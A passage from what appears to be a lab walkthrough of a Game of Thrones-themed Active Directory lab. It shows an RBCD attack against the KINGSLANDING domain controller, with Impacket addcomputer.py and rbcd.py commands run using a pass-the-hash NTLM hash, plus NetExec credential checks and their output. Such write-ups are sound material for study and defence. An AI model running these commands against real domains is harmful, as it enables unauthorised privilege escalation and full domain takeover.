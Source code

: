 ## Alternative Path - Final Domain Compromise

I had two paths to exploit the permissions that `DAENERYS.TARGARYEN` held over the `KINGSLANDING` DC. I could have either performd a Resource-Based Constrained Delegation (RBCD) attack or a Shadow Credentials attack.

I decided to explore both just for the sake of trying things out.

### Resource-Based Constrained Delegation Exploitation

To perform the RBCD attack, I first needed a machine account (or an account with an SPN configured) that I could control. This is because I will essentially be granting the machine account (or SPN-enabled account) permissions to act on behalf of the DC. For a full explanation of this attack, I recommend reading [this blog post](https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5).

Well, I did not have access to either at the time. As such, I decided to try and create a machine account within the `SEVENKINGDOMS` domain via the Addcomputer utility from Impacket.

*Note: machine account creation may be possible if the Machine Account Quota (MAQ) and/or GPO allow it. Even regular domain users may have the permissions to do so (they do by default!).*

```
# addcomputer.py essos.local/daenerys.targaryen -hashes :34534854d33b398b66684072224bb47a -computer-name intruder -computer-pass secretpass1234 -baseDN "DC=SEVENKINGDOMS,DC=LOCAL" -dc-ip 10.2.10.10

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account intruder$ with password secretpass1234.
```

I included the `-baseDN "DC=SEVENKINGDOMS,DC=LOCAL"` argument just to make sure that the account is created within `SEVENKINGDOMS` versus `ESSOS`.

The command executed successfully, granting me a Domain Computer account that I could perform RBCD with. Prior to doing so, I validated that the credentials for the new machine account were valid and I could authenticate with them.

```
# nxc smb 10.2.10.10 -u intruder\$ -p secretpass1234

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\intruder$:secretpass1234
```

The creds worked! I was good to go.

The next step was to execute the `rbcd.py` utility from Impacket to grant my newly created machine account the necessary delegation rights to the `KINGSLANDING` DC.

```
# rbcd.py -delegate-to "KINGSLANDING$" -delegate-from "intruder$" -dc-ip 10.2.10.10 -action write ESSOS.LOCAL/daenerys.targaryen -hashes :34534854d33b398b66684072224bb47a

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] intruder$ can now impersonate users on KINGSLANDING$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     intruder$    (S-1-5-21-3246286080-1806464247-3468326668-1124)
```
